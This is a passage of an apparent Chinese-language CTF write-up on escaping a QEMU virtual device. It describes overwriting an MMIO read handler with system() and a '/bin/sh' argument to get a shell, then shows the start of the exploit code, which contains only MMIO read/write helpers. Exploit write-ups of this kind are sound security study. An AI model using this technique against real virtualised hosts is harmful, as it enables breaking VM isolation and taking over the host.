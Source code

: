 
通过我们对很多操作系统的设计的理解（比如 Windows drivers 是咋找 ioctl handlers 这种），可以知道这是相当合理的    

于是就伪造一个结构体，把 mmio_ops->read 覆盖为 system 函数，然后把 opaque 里面的指针指向它，再把 opaque 的 0x0 的 地方覆盖为 "/bin/sh" 字符串，调用 mmio_read 即可 trigger getshell     

### exp
```c
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/io.h>
unsigned char* iomem;

void die(const char* msg)
{
	perror(msg);
	exit(-1);
}
uint64_t ioread(uint64_t addr)
{
	return *((uint64_t*)(iomem + addr));
}
void iowrite(uint64_t addr, uint64_t value)
{
    *((uint64_t*)(iomem + addr)) = value;
}

void iowrite32(uint64_t addr, uint32_t value)
{
	*((uint32_t*)(iomem + addr)) = value;
}

uint32_t ioread32(uint64_t addr)
{
	return *((uint32_t*)(iomem + addr));
}

void iowrite64(uint64_t offset, uint64_t value)
{
    iowrite32(0, offset);
    iowrite32(8, value & 0xffffffff);
    iowrite32(0, offset + 4);
    iowrite32(8, value >> 32);
}

void iowrite64_1(uint64_t offset, uint64_t value)
{
    iowrite(0, offset);
    iowrite32(8, value & 0xffffffff);
    iowrite(0, offset + 4);
    iowrite32(8, value >> 32);
}
void iowrite32_wrapper(uint64_t addr, uint32_t value)
{
    iowrite32(0,addr);
    iowrite32(8,value);
}
```